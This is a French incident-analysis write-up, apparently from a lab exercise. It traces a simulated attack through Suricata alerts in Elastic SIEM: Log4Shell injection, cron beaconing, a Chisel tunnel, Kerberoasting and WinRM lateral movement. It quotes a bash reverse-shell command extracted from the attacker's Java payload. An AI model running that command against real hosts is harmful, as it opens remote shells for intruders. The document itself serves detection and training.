







# 02 - Analyse de la détection réseau (NIDS / Suricata)

Le déploiement de la sonde Suricata et l'ingestion de ses alertes dans Elastic SIEM offrent une première ligne de défense sur le trafic inter-zones. Cependant, le volume massif de logs et le bruit réseau nécessitent un filtrage rigoureux pour isoler les actions critiques.

Ce document propose une investigation technique ciblée des flux bruts. Sans viser l'exhaustivité, l'objectif est d'analyser des payloads spécifiques pour extraire les indicateurs de compromission (IoC), débusquer le trafic C2 et décoder les trames d'authentification, en suivant fidèlement la chronologie de l'attaque.

---

## 1. Deep dive : accès initial et livraison du payload (Log4Shell)

L'exploitation de la vulnérabilité Log4Shell (Phase 1) sur le portail web a généré une séquence d'alertes réseau très claire, permettant au SOC de reconstituer la chaîne d'infection en deux étapes avant même l'exécution du code sur l'hôte.

### A. L'injection JNDI et la redirection LDAP
L'attaque commence par une requête HTTP POST contenant le vecteur JNDI. Suite à cette injection, le serveur web DMZ initie une connexion sortante vers le serveur LDAP de l'attaquant pour résoudre la ressource. 

Suricata intercepte la réponse du serveur LDAP malveillant via la signature de haute sévérité `ET ATTACK_RESPONSE Possible CVE-2021-44228 Payload via LDAPv3 Response`.


*L'inspection du champ `payload_printable` du flux LDAP révèle le mécanisme de redirection. Le serveur indique à la victime d'aller récupérer la classe Java nommée `Exploit` sur un serveur externe (`http://192.168.1.150:8000/`).*

### B. La livraison du payload (téléchargement de la classe)
Moins d'une seconde après la redirection LDAP, la victime effectue la requête HTTP GET vers le serveur de l'attaquant sur le port 8000. L'alerte `ET INFO JAVA - Java Class Download By Vulnerable Client` est levée.

C'est l'analyse approfondie de ce paquet en transit qui livre l'Indicateur de Compromission (IoC) le plus critique de cette phase :


*Bien qu'il s'agisse de bytecode Java compilé, l'inspection du corps de la réponse HTTP permet d'extraire la commande système codée en dur par l'attaquant : `/bin/bash -c bash -i >& /dev/tcp/192.168.1.150/4444 0>&1`.*

> **Conclusion SOC (Phase 1) :** Avant même d'interroger l'EDR de la machine cible, la corrélation de ces deux flux réseau permet d'affirmer avec certitude que l'application a été compromise par Log4Shell et qu'un Reverse Shell Bash a été instancié vers l'IP `192.168.1.150` sur le port `4444`.

---

## 2. Deep dive : détection de la persistance et du C2 (beaconing)

Une fois l'accès initial obtenu, l'attaquant a mis en place un mécanisme de persistance via une tâche planifiée (Cronjob) afin d'assurer un accès continu au serveur. 

Si la modification du crontab est une action locale, son exécution génère un trafic réseau très caractéristique, appelé **Beaconing** (battement de cœur), que Suricata a parfaitement identifié tout au long de l'attaque.

-   **Alerte déclenchée :** `ET HUNTING curl User-Agent to Dotted Quad` (Sévérité : Medium)
-   **Fréquence :** Exactement toutes les 60 secondes (généré par la syntaxe `* * * * *` du cron).


*Le JSON révèle une requête HTTP GET vers l'adresse IP nue de l'attaquant (`Host: 192.168.1.150`).*

> **Conclusion SOC (Phases 1 et 2) :** La régularité métronomique de ces requêtes vers une adresse IP externe non qualifiée est la signature classique d'un tunnel C2. L'analyste réseau déduit qu'un agent malveillant exécute une boucle de rappel (`callback`) pour récupérer des instructions en attente.

---

## 3. Deep dive : acheminement d'outils et tunneling C2 (Chisel)

Lors de la Phase 3, l'attaquant cherche à interagir avec l'Active Directory. Pour ce faire, il doit transformer le serveur web DMZ compromis en machine de rebond. L'analyse réseau a permis de corréler deux événements démontrant la mise en place d'un proxy SOCKS5.

### A. Le tool transfer (téléchargement de l'implant)
Suricata intercepte le rapatriement de l'outil de tunneling sur la cible en clair sur le port 8000 via l'alerte `ET INFO Executable and linking format (ELF) file download`.


*Le JSON révèle le téléchargement d'un fichier binaire Linux natif (en-tête magique `.ELF`) de 15,4 Mo (`Content-Length: 15450063`). L'en-tête de réponse `Server: SimpleHTTP/0.6 Python/3.14.6` confirme l'utilisation d'un serveur HTTP éphémère classique.*

### B. L'établissement du tunnel (l'erreur OPSEC)
Quelques minutes après ce téléchargement, le serveur compromis initie une connexion sortante sur le port `443`. L'attaquant commet ici une erreur OPSEC : il n'encapsule pas son tunnel dans un certificat TLS/SSL. Le trafic circulant en clair, Suricata lève l'alerte `ET USER_AGENTS Go HTTP Client User-Agent`.


*L'inspection des en-têtes de la requête de négociation HTTP (`Connection: Upgrade`, `Upgrade: websocket`) révèle la nature exacte de l'outil utilisé grâce au champ `Sec-WebSocket-Protocol: chisel-v3`.*

> **Conclusion SOC (Phase 3) :** La corrélation entre le téléchargement d'un volumineux exécutable Linux (ELF) depuis une IP suspecte, suivi par l'ouverture d'un tunnel WebSocket "Chisel" vers cette même IP, qualifie un incident critique. Un proxy SOCKS5 bidirectionnel est actif.

---

## 4. Deep dive : anomalie Kerberos et empreinte d'outil (kerberoasting)

L'établissement du tunnel permet à l'attaquant de cibler le Contrôleur de Domaine (`10.0.20.5`) pour extraire un ticket de service vulnérable (Kerberoasting). Puisque ce trafic transite par le proxy en DMZ, la sonde Suricata inspecte les requêtes Kerberos (port 88).

L'utilisation du script `impacket-GetUserSPNs` génère deux alertes réseau distinctes :

### A. L'empreinte de la bibliothèque Impacket
La première alerte est `ET EXPLOIT Possible GoldenPac Priv Esc in-use`. 
Bien que l'attaquant n'exploite pas *GoldenPac*, cette alerte est un faux positif instructif. Elle se déclenche parce que la bibliothèque offensive Python `Impacket` forge ses requêtes Kerberos (TGS-REQ) d'une manière non standard, omettant certaines pré-authentifications typiques d'un client Windows.

### B. La rétrogradation cryptographique et l'identification de la cible
Quatre secondes plus tard, la sonde réseau lève l'alerte `SURICATA Kerberos 5 weak encryption parameters`.


*L'alerte se déclenche car l'outil a explicitement inséré l'algorithme RC4-HMAC (etype 23) dans sa liste de chiffrements demandés au KDC, écartant le standard robuste AES-256 pour faciliter le cassage hors-ligne. L'investigation du log JSON démontre la valeur de l'analyse réseau : en inspectant le champ `payload_printable`, l'analyste peut lire les champs d'en-tête Kerberos qui transitent légitimement en clair. On y identifie immédiatement l'utilisateur compromis initiant la requête (`e.alderson`) ainsi que la cible exacte de l'attaque Kerberoasting (`ecorp.local\svc_deploy`).*

> **Conclusion SOC (Phase 3) :** En combinant l'empreinte réseau d'un outil offensif (`Impacket`) et la demande forcée d'un chiffrement obsolète (`RC4`), l'analyste réseau déduit qu'une tentative de **Kerberoasting** est en cours, le RC4 étant ciblé volontairement pour faciliter le cassage de mot de passe hors-ligne.

---

## 5. Deep dive : mouvements latéraux et fuite d'information (OPSEC fail)

À partir de la Phase 4, l'attaquant attaque les machines Windows du réseau interne via le protocole d'administration **WinRM** (port 5985).

Suricata intercepte ce trafic réseau interne et génère une rafale d'alertes `ET USER_AGENTS WinRM User Agent Detected - Possible Lateral Movement` et `SURICATA HTTP Request unrecognized authorization method`.


*L'inspection des requêtes POST vers l'URI `/wsman` confirme l'utilisation d'outils offensifs. Le champ User-Agent révèle l'empreinte `Python PSRP Client` (typique de la bibliothèque utilisée par NetExec).*

### L'erreur de l'attaquant (extraction forensique)
Les requêtes WinRM initiées par les outils de l'attaquant s'authentifient via le protocole NTLMSSP. En analysant la charge utile d'une de ces requêtes de négociation, l'analyste SOC isole l'en-tête d'autorisation :

`Authorization: Negotiate TlRMTVNTUAABAAAAN4II4AAAAAAgAAAAAAAAACAAAABrYWxpLXZtAA==`

Le décodage de cette chaîne Base64 révèle la structure binaire du jeton NTLM (Type 1 Message). En utilisant les outils en ligne de commande standards pour décoder le jeton et en extraire les chaînes de caractères lisibles (`strings`), nous obtenons le résultat suivant :

```bash
echo "TlRMTVNTUAABAAAAN4II4AAAAAAgAAAAAAAAACAAAABrYWxpLXZtAA==" | base64 -d | strings
```

*Résultat de la commande :*
```text
NTLMSSP
kali-vm
```

> **Conclusion SOC (Phases 4 et 5) :** Bien que l'attaquant opère de manière masquée derrière le proxy de la DMZ (`10.0.10.10`), la commande d'extraction forensique permet de trouver en clair le véritable nom de sa machine d'attaque (**`kali-vm`**) divulgué lors du processus de négociation NTLM. C'est une découverte majeure permettant l'attribution directe.

---

## Limites de la détection réseau et transition

Bien que la sonde NIDS Suricata ait fourni une télémétrie cruciale (interception du vecteur Log4Shell, détection du tunneling, identification du Kerberoasting et analyse forensique des flux WinRM), l'analyse purement réseau se heurte à deux limites structurelles :

- **Le chiffrement post-authentification :** Une fois la session WinRM établie et authentifiée, le trafic est chiffré (`application/HTTP-SPNEGO-session-encrypted`). Le NIDS est incapable d'inspecter les commandes exécutées (comme le dump LSASS, la création de GPO ou le sabotage final).
- **La visibilité Est-Ouest :** La sonde étant placée sur le routeur périmétrique, elle est aveugle aux mouvements latéraux internes au sein d'un même sous-réseau (ex: de WK01 vers DC01).

**Remédiation architecturale :** Pour combler ces angles morts, la défense doit impérativement pivoter vers une analyse comportementale au niveau des systèmes d'exploitation cibles (Endpoint Detection). Cette investigation des processus locaux et des journaux Active Directory fait l'objet du document suivant : **[03-endpoint-and-ad-telemetry.md](./03-endpoint-and-ad-telemetry.md)**.